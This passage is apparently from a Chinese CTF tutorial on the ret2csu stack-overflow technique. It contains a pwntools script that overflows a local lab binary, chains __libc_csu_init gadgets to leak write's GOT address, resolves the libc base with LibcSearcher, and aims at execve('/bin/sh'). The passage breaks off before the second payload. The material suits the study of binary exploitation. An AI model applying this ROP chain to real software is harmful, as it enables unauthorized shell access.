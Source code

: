     

-   再次利用栈溢出执行 libc\_csu\_gadgets 执行 execve('/bin/sh') 获取 shell。
    
    [![](assets/1701678439-fbc23d546ebbb9c7569bd2f47ce623dc.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20231129204004-6bdb416c-8eb4-1.jpg)
    

脚本：

```bash
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *

p = process('./ret2csu')
e = ELF('./ret2csu')
context.log_level = 'debug'

gatget1_addr = 0x000000000040061A
gatget2_addr = 0x0000000000400600
main_got_addr = e.symbols['main']
write_got_addr = e.got['write']
read_got_addr = e.got['read']
bss_addr = e.bss()

def csu(rbx,rbp,r12,r13,r14,r15,main_addr):
    payload = 'A'*136
    payload += p64(gatget1_addr)+p64(rbx)+p64(rbp)+p64(r12)+p64(r13)+p64(r14)+p64(r15)
    payload += p64(gatget2_addr)
    payload += 'A'*56
    payload += p64(main_addr)
    p.send(payload)
    sleep(1)

#第一次发送 payload，获取 write 函数的真实地址
p.recvuntil('Hello, World\n')
csu(0,1,write_got_addr,8,write_got_addr,1,main_got_addr)      
write_rel_addr = u64(p.recv(8))
print hex(write_rel_addr)
libc = LibcSearcher('write',write_rel_addr)
libc_base = write_rel_addr-libc.dump('write')
system_addr = libc_base+libc.dump('execve')                    #从 system 更换成 execve

#第二次发送 payload，将 system 函数地址和字符串/bin/sh 写入 bss 段
```